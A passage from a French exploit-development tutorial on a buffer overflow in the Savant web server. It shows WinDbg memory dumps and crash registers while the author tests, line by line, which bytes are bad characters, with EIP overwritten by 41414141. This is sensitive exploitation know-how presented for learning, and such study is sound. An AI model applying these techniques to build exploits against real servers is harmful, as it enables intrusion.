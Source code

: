 ```py
```

On relance l'exploit et on a bien un dépassement. Il n'y a donc aucun mauvais caractère dans cette deuxième moitié :

```powershell
# Affichage de ESP
0:004> db esp
0466ea2c  41 41 41 00 84 ea 66 04-3c 70 41 00 78 57 9e 01  AAA...f.<pA.xW..
[...]
0466ea7c  00 00 00 00 02 00 00 00-47 45 54 00 00 00 00 00  ........GET.....
0466ea8c  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0466ea9c  2f 82 83 84 85 86 87 88-89 8a 8b 8c 8d 8e 8f 90  /...............             # Début des caractères
#
# Affichage des caractères complets jusqu'au 1er 'A'
0:004> db 0466ea9c
0466ea9c  2f 82 83 84 85 86 87 88-89 8a 8b 8c 8d 8e 8f 90  /...............
0466eaac  91 92 93 94 95 96 97 98-99 9a 9b 9c 9d 9e 9f a0  ................
0466eabc  a1 a2 a3 a4 a5 a6 a7 a8-a9 aa ab ac ad ae af b0  ................
0466eacc  b1 b2 b3 b4 b5 b6 b7 b8-b9 ba bb bc bd be bf c0  ................
0466eadc  c1 c2 c3 c4 c5 c6 c7 c8-c9 ca cb cc cd ce cf d0  ................
0466eaec  d1 d2 d3 d4 d5 d6 d7 d8-d9 da db dc dd de df e0  ................
0466eafc  e1 e2 e3 e4 e5 e6 e7 e8-e9 ea eb ec ed ee ef f0  ................
0466eb0c  f1 f2 f3 f4 f5 f6 f7 f8-f9 fa fb fc fd fe ff 41  ...............A
```

On continue en décommandant ligne par ligne. On dé-commente donc `b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"`

```powershell
#
(144.db8): Access violation - code c0000005 (first chance)
[...]
eax=ffffffff ebx=01b15778 ecx=3d909e99 edx=00000000 esi=01b15778 edi=0041703c
eip=41414141 esp=0469ea2c ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
41414141 ??              ???
#
0:004> db esp
0469ea2c  41 41 41 00 84 ea 69 04-3c 70 41 00 78 57 b1 01  AAA...i.<pA.xW..
[...]
0469ea7c  00 00 00 00 02 00 00 00-47 45 54 00 00 00 00 00  ........GET.....
0469ea8c  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0469ea9c  2f 75 76 77 78 79 7a 7b-7c 7d 7e 7f 80 81 82 83  /uvwxyz{|}~..... # Commence ici
```

On a encore tous les caractères, on continue ligne par ligne en remontant vers le haut.

Quand on arrive a la ligne `b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"` l'overflow est différent. `EIP` n'est pas réécrit.

```powershell
(10e4.bc8): Access violation - code c0000005 (first chance)
[...]
eax=045a0041 ebx=001a5778 ecx=00000001 edx=00020b40 esi=001a5778 edi=0041703c
eip=0040c05f esp=045ae6b8 ebp=045aea24 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
Savant+0xc05f:
0040c05f 8b08            mov     ecx,dword ptr [eax]  ds:0023:045a0041=????????
```
